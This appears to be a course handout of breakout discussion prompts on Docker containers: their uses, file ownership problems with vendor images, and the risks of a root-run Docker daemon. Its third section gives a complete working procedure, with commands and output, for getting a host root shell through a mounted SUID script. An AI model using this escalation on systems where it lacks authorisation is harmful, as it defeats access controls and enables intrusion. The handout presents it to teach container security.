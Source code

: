 # Instructions for Breakouts for Week 04

## Breakout 1 - Containers: the Good

Make a list and discuss the advantages of using containers: 

* Include microservices and images in your discussion.

* Include some examples of business cases / use cases.  Try to include a specific example that we haven't covered.

## Breakout 2 - Containers: the Bad

One major advantage of using containers is that we can leverage vendor container images to save us numerous hours of installation and setup work.

The bad side to this is that a lot of vendor products were designed long before containers were invented, or were designed by people lacking knowledge of containers, or were designed by people lacking a fundamental knowledge of Linux best practices, cybersecurity, etc.  

A lot of well known vendors have containers that have a lot of really bad decisions in them that cause major Linux issues, cybersecurity issues, etc.

A lot of times, a container is viewed as a "nice to have" and an afterthought rather than a fundamentally designed part of the product.  Often, on official images, I see comments like "Sorry about that, I'm an intern on my second week, and I've never used Docker before".   This seems incongruent with the way shops are pushing containers.  

Let's look at and discuss one common major bad decision:  ownership and permissions of files and directories used in remote mounts to containers.

Recall from one of this week's labs, "Lab: Docker - Persistence, Directory Mounting to Containers", that we have remote mounts to pass data to and from containers in the form of directories and files.  A lot of vendor products require files and directories to be owned by specific users and specific groups with specific permissions set.  If you change the ownership or permissions, the product may stop working outright, or parts of the product may not work, or part of the product may not work correctly.  So, we are stuck with using them.

Our directory /home/w205 is owned by w205 with group mids.  Linux best practices dictates that no file under /home/w205 should be owned by anything than w205 with group mids.  When running backups, we have already seen the major issues and security issues this causes.  We have to have access to sudo just to backup files.  When it's our machine, it's ok for us to have sudo access, however, in a production environment, it would be 100% unacceptable to grant every user who runs these images sudo access.

Several containers have these issues. 

Let's look at postgres.

The commands:
```
cd ~/docker/mounts/postgres

ls -l 
```
yields output:
```
drwxrw---- 19 libstoragemgmt root 4096 Jan 17 12:02 data
```

Discuss the following:
* Did postgres choose the user libstoragemgmt to own the files?
* What are the consequences to the user libstoragemgmt of the VM?
* Why is root the group?

Let's look at neo4j:

The commands:
```
cd ~/docker/mounts/neo4j

ls -l
```
yields output:
```
drwxrwxr-x 5 7474 7474 55 Nov 17 21:01 data
```

Discuss the following:
* Why is 7474 listed as the owner?
* Why is 7474 listed as the group?
* What would be the consequences if the VM has a user with id 7474?
* What would be the consequences if the VM has a group with id 7474?

## Breakout 3 - Containers: the Ugly

In the world of hacking, getting a "root shell" to a Linux box is the "Holy Grail".  Once hackers have a root shell, they have full access to the machine.  If SSH private keys are present on the server, they can use those private keys to gain access to even more servers, and so forth.  

When Docker is running as root, anyone who can run a Docker container, or access a Docker container, can easily get a root shell.  Here is the procedure:

Create a temporary directory:
```
cd

mkdir temp_root_shell

cd temp_root_shell
```
Run a docker container with the directory mounted:
```
docker run -it --rm -v /home/w205/temp_root_shell:/temp_root_shell continuumio/anaconda3:latest bash
```
You are now inside the container. Run the following and exit the container:
```
cd /temp_root_shell

echo \#\!/usr/bin/bash >root_shell.bash

echo sudo bash >>root_shell.bash

chmod 4777 root_shell.bash

exit
```
Back in the VM, we can see that the SUID (user + special) permission is set.  Notice the s in the usual place of the x.  This tells Linux to execute the process as the owner instead of the user.  In our case the user is w205 and the owner is root.  So the bash shell script root_shell.bash will give us a root shell!
```
ls -l 
```
which yields
```
-rwsrwxrwx 1 root root 21 Jan 24 19:32 root_shell.bash
```
Now we can run the script:
```
./root_shell.bash
```
Which yields a root shell:
```
[root@ip-172-31-71-148 temp_root_shell]#
```
We can verify user is indeed root:
```
whoami
```
Which yield 
```
root
```
Exit the root shell:
```
exit
```
Delete the temporary directory when we are done:
```
cd

rm -r temp_root_shell
```

What can we conclude about running Docker as root?
* Consider the case where we own the VM, such as our VM for w205, where we already have root access
* Consider the case of a corporate environment, where the VM is owned by an admin, and we should not have root access

Most vendor supplied images assume Docker will be run as root, and they will not run, or will not run correctly otherwise.  If we attempt to run Docker not as root, what would be the consequences?


## Breakout 4 - Review and discuss the Dockerfiles for container images used in this course

In the labs, we walked through the Dockerfiles for container images.  Review the Dockerfiles again and discuss them.

ucb_mids_w205_repo => labs => week_04 => lab_instructions_04.md

Scroll down to the section Lab: Docker - Creating an Image

## Breakout 5 - Review and discuss the documentation and Dockerfiles for the official images used in this course

In the labs, we walked through the documentation and Dockefiles for the official images used to build the custom container images used in this course.  Review the documentation and Dockefiles again and discuss them.

ucb_mids_w205_repo => labs => week_04 => lab_instructions_04.md

Scroll down to the section Lab: Lab: Docker - Examples of How Various Official Images are Built
